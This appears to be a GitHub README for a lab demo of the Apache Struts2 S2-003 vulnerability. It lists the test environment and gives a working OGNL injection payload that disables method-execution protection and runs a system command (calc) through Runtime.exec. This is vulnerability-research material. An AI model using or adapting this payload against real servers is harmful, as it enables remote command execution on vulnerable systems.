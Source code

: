 ## S2-003 Demo

### Environment

Struts2 Version: `struts-2.0.11.2-all`

Tomcat: `6.0.9 (I only run payload behind successful in this version).`

IDE: idea 2020.1.1

(Maybe you should do this.) Open the project with idea, and readd all the jars at web/WEB_INF/lib.

![{86B8007A-5296-441A-9637-0A5AFBDF7FE6}_20200619163625]({86B8007A-5296-441A-9637-0A5AFBDF7FE6}_20200619163625.jpg)

### POC

![{15189529-560B-45EC-9D26-EA6CEA8D80CC}_20200619162417]({15189529-560B-45EC-9D26-EA6CEA8D80CC}_20200619162417.jpg)

### payload

`?('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\'calc\')')(bla)(bla)`

### Reference

- [【Struts2-命令-代码执行漏洞分析系列】S2-003和S3-005](https://xz.aliyun.com/t/2323)

- [S2-005 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-005/README.zh-cn.md)

